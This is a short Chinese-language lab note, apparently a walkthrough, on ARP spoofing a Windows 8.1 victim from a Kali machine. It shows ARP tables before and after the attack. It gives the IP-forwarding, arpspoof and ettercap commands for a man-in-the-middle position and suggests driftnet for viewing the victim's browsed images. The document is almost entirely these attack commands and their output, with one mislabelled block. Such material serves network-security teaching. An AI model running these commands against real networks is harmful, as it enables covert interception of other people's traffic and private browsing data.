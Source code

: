 ## arpspoof & ettercap

### 攻击前

	攻击机：kali 172.16.8.182
		root@kali:~# arp
		Address                  HWtype  HWaddress           Flags Mask            Iface
		172.16.8.180             ether   12:24:36:48:60:72   C                     eth1
		172.16.0.1               ether   d4:3d:7e:f8:98:44   C                     eth1

	受害机：win8.1 172.16.8.180
		C:\Users\Michael.zou>arp -a

		接口: 172.16.8.180 --- 0x3
		  Internet 地址         物理地址              类型
		  172.16.0.1            d4-3d-7e-f8-98-44     动态
		  172.16.8.182          08-00-27-65-ee-95     动态

### ARP 攻击操作

	root@kali:~# echo 1 >> /proc/sys/net/ipv4/ip_forward
	root@kali:~# arpspoof -i eth1 -t 172.16.8.180 172.16.0.1
	root@kali:~# arpspoof -i eth1 -t 172.16.0.1 172.16.8.180
	
	或：
	root@kali:~# echo 1 >> /proc/sys/net/ipv4/ip_forward
	root@kali:~# arpspoof -i eth1 -c both -t 172.16.8.180 172.16.0.1
	
	或：
	root@kali:~# echo 1 >> /proc/sys/net/ipv4/ip_forward
	root@kali:~# ettercap -T -i eth1 -M arp:remote /172.16.0.1/ /172.16.8.180/
		  
### 攻击后

	受害机：win8.1 172.16.8.180
		C:\Users\Michael.zou>arp -a

		接口: 172.16.8.180 --- 0x3
		  Internet 地址         物理地址              类型
		  172.16.0.1            08-00-27-65-ee-95     动态
		  172.16.8.182          08-00-27-65-ee-95     动态

	受害机：win8.1 172.16.8.180
		root@kali:~# arp
		Address                  HWtype  HWaddress           Flags Mask            Iface
		172.16.8.180             ether   12:24:36:48:60:72   C                     eth1
		172.16.0.1               ether   d4:3d:7e:f8:98:44   C                     eth1
		
	此时可使用 driftnet -i eth1 查看受害机在网络中浏览的图片数据
